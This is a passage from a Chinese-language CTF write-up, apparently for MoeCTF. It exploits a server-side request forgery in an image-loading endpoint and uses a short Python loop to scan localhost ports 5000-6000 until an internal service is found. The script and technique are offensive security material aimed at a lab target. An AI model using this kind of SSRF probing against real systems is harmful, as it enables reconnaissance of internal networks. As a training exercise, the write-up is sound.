 ```python
```


关键部分，这里可以看到，端口随机开的。怀着愧疚之心狠狠的爆破了一下，因为内部外部云在同一目录，所以利用外部云的url访问内部云

通过回显不同，发现内部云跑在了`5043`端口

```python
if __name__ == '__main__':
    if not os.path.exists(UPLOAD_FOLDER):
        os.makedirs(UPLOAD_FOLDER)
    port = find_free_port_in_range(5001, 6000)
    app.run(host='0.0.0.0', port=port)
```

简单爆破脚本，内部云的路径是随便写的，能返回`无法加载图片: 404 Client Error: NOT FOUND for url: http://localhost:5122/uploads/flag`和`无法加载图片: HTTPConnectionPool(host='localhost', port=5432): Max retries exceeded with url: /uploads/flag.jpg (Caused by NewConnectionError(': Failed to establish a new connection: [Errno 111] Connection refused'))`或者静态目录下存在的文件，可以确定端口，
回显可以区别开就行

```python
import time
import requests


for i in range(5000,6000):
    url = f"http://127.0.0.1:60084/image?url=http://localhost:{i}/static/0_11.png"
    resp = requests.get(url)
    print(resp.text)
    time.sleep(0.1)
```

![24](/medias/moectf/24.png)

